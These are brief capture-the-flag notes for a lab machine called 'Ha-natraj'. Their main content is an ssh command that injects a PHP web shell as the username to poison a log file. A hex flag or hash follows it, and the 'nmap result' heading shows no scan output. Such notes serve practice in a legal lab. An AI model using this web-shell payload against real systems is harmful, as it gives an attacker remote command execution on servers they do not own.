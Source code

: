----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Ha-natraj
# 2/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
ssh '<?php system($_GET['cmd']); ?>'@192.168.75.80


294e037b4f910ebf4ae643b7d077f0b9